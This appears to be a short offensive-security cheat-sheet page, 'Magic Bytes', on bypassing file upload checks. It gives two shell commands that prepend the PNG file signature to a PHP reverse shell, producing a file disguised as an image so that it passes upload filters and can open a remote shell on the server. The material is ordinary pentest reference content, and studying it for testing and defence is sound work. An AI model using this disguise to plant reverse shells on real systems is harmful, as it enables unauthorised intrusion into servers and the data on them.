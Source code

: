 ```yaml
---
title: "Magic Bytes"
date: 2024-7-2
tags: ["File Upload Vulnerability", "File Metadata", "File Carving", "Bypass", "Magic Bytes", "Png"]
---
```


### Forge File Signature

{{< tab set1 tab1 >}}png{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r >> php-reverse-shell.php.png
```

```console
cat php-reverse-shell.php >> php-reverse-shell.php.png
```

{{< /tabcontent >}}
